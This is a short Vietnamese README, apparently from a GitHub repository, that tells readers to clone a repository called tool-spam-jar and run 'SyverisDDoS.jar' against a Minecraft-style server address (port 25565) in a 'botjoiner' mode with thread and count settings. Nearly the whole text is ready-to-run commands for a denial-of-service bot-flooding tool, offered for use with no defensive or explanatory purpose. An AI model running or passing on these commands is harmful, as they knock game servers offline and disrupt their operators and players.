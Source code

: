 # vô và trải nghiệm đi 
**code** :  ``cd 1`` ``java -jar SyverisDDoS.jar 1.1.1.1:25565 340 botjoiner 30 1000``

# **cài trên linux** 
**code** : ``git clone https://github.com/zwtx2944/tool-spam-jar.git`` ``cd tool-spam-jar`` ``cd 1``  ``java -jar SyverisDDoS.jar 1.1.1.1:25565 340 botjoiner 30 1000``

**bye**
